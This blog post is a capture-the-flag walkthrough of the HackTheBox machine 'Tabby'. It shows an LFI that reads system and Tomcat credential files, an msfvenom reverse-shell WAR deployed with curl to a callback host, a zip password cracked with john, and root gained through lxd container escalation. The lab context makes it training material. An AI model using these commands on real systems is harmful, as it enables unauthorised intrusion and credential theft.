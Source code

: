 ```yaml
---
date: 2020-06-21 19:04:28
layout: post
title: "Tabby"
subtitle:
description: Easy Machine from Hackthebox 
image: /writeup/assets/img/Tabby/tabby.png
optimized_image:
category: Hackthebox
tags: hackthebox
author: cirius
paginate: false
---
```

Starting with the nmap scan.
```bash
nmap -T4 -p- -A 10.10.10.194
Starting Nmap 7.80 ( https://nmap.org ) at 2020-06-22 00:40 IST
Nmap scan report for www.megahosting.htb (10.10.10.194)
Host is up (0.32s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Mega Hosting
8080/tcp open  http    Apache Tomcat
|_http-open-proxy: Proxy might be redirecting requests
|_http-title: Apache Tomcat
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (94%), Linux 2.6.32 (94%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%), Linux 3.1 - 3.2 (92%), Linux 3.11 (92%), Linux 3.2 - 4.9 (92%), Linux 3.5 (92%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 80/tcp)
HOP RTT       ADDRESS
1   316.63 ms 10.10.14.1
2   322.75 ms www.megahosting.htb (10.10.10.194)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 28.51 seconds
```
So it had 3 ports open 22,80 and 8080.

I accessed the port 80 which gave a simple website.
![placeholder](/writeup/assets/img/tabby/website.png "website")
Most links on the website lead to nowhere except one, news.
The link was trying to access megahosting.htb, so added it to my hosts file.
![placeholder](/writeup/assets/img/tabby/hosts.png "hosts")
The link was like
```url
http://megahosting.htb/news.php?file=statement
```
The file parameter was vulnerable to Local File Inclusion.
![placeholder](/writeup/assets/img/tabby/lfi.png "LFI")
But it didn't give much as I was not able to do log posioning to get shell.

Moved on to the port 8080 and found that there are two login forms. I tried to bruteforce my way in but failed.

On the homepage it was written that tomcat-users.xml file contained the username and password. I tried to access the file at /etc/tomcat9/conf/tomcat-users.xml through the LFI but it gave nothing.

I tried to know whose permission I have as LFI by reading the /proc/self/status.
```url
http://megahosting.htb/news.php?file=/../../../../../../../../../proc/self/status
```
This told me that I have privilege of apache2 during LFI.

Installed tomcat9 locally through
```bash
apt-get install tomcat9
```
and tried to look for files that are readable by everyone by visiting the directories created after installing tomcat9.
![placeholder](/writeup/assets/img/tabby/tomcat.png "findtomcat")
Inside ***/usr/share/tomcat9/etc*** I found tomcat-users.xml that was readable by everyone.
Accessed the file on the machine through LFI and got nothing. Then i remembered that it is a XML file so it will not print anything untill it is stated in it.
So opened the source of webpage and got the login information.
![placeholder](/writeup/assets/img/tabby/login.png "Login")
The login details worked for host-manager and there was not much I can do with that. But I the xml file stated that tomcat user had one more role manager-script.

The manager-script role allows user to do same tasks as manager but thorugh commands not through GUI.

I created a .war payload through msfvenom and uplaoded it to get the revrese shell.
```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.32 LPORT=8888 -f war > shell.war
curl 'http://tomcat:$3cureP4s5w0rd123!@10.10.10.194:8080/manager/text/deploy?path=/shell' --upload-file shell.war
```
Accessed the file at
```url
http://10.10.10.194:8080/shell
```
and got the reverse shell as tomcat user.

Ran the following command to make the shell tty. 
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

Enumerating thruogh the machine I found a zipped file in /var/www/html/files/ and the file belonged to ash user on the machine.
Transferred the file to local machine by first encoding it to base64 and then decoding it locally.
```bash
base64 -w 0 16162020_backup.zip
#Copied the hash and then on local terminal
echo -n base64enocdedtext | base64 -d > backup.zip
```
The zipped file was encrypted, so I used john to crack the password.
```bash
zip2john.py backup.py > hash
john --wordlist=rockyou.txt hash
```
Found the password.
Unzipped the file and found that nothing interetsing inside.
Used the password to switch user to ash and it worked.

Found the user.txt

Ran ***id*** and found that i ash user is member of lxd group.
![placeholder](/writeup/assets/img/tabby/groups.png "Groups")
From <a href="https://www.hackingarticles.in/lxd-privilege-escalation/">Link</a> this wonderful article got the steps needed to escalate privileges.

```bash
lxc init
#Did the same as mentioned in article
```
and then on local machine
```bash
git clone  https://github.com/saghul/lxd-alpine-builder.git
cd lxd-alpine-builder
./build-alpine
```
Uploaded the generated tar.gz file to the machine and then executed following commands
```bash
lxc init myimage ignite -c security.privileged=true
lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true
lxc start ignite
lxc exec ignite /bin/sh
```
![placeholder](/writeup/assets/img/tabby/root.png "root")

Found all the files of the machine inside the conatainer's /mnt/root directory as stated in the article.

Found root.txt.


